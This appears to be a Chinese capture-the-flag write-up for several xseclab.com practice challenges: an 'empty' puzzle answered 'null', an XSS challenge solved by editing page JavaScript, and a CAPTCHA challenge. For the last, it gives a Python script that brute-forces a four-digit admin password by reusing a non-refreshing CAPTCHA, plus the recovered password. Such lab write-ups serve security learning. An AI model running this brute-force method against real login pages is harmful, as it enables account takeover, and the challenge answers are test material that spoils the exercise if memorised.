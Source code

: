 ## 第三题
> 这个题目是空的 分值: 100 
Tips:这个题目真不是随便设置的。 什么才是空的呢？ 通关地址：没有，请直接提交答案(小写即可)

__思路：空？还要小写？null试试，果然！__

## 第四题：
>怎么就是不弹出key呢？ 分值: 150 
>提交说明：提交前14个字符即可过关
[地址]:(http://lab1.xseclab.com/xss3_5dcdde90bbe55087eb3514405972b1a6/index.php)

__思路：点击没反应，看源代码__
![图片.png](http://upload-images.jianshu.io/upload_images/4838174-984be23f6f661278.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
__思路：js代码，a伪变量，将源码复制下来，去掉前面几个函数试试
步骤：将前面几个函数去掉，保存为html格式，用浏览器打开试试
>![图片.png](http://upload-images.jianshu.io/upload_images/4838174-02f69d2d6c45898e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
(\\注意要加\n才方便看前14字符)

- 轻松拿到key:

![图片.png](http://upload-images.jianshu.io/upload_images/4838174-41829fafb56d77c0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 第五题：
>逗比验证码第一期 分值: 100 
逗比的验证码，有没有难道不一样吗？
[地址]:(http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/index.php)
思路：
1. 看验证码是否可以重复使用
2. 可用burpsuit爆破或者保持会话脚本访问
3. 测试验证码，发现同一个验证码可以重复登录，即验证码不刷新，直接写脚本

```python
import requests
import re
s=requests.Session()
url="http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/login.php"
head={'cookie':'PHPSESSID=844e5142519e671ce9180b9a47588675'}
for num in range(1000,10000):
    data={'username':'admin','pwd':num,'vcode':'GNQK','submit':'submit'}
    res=s.post(url,data=data,headers=head).content.decode('utf-8')
    if u'pwd error' in res:
        print('正在尝试',num,'-----密码错误！')
    if u'vcode error' in res:
        print('验证码错误，请重新查看并输入正确验证码！')
    # print(res)
    if u'error' not in res:
        print(num,'-------正确')
        print(res)
        break
```
__得到密码为 1238__
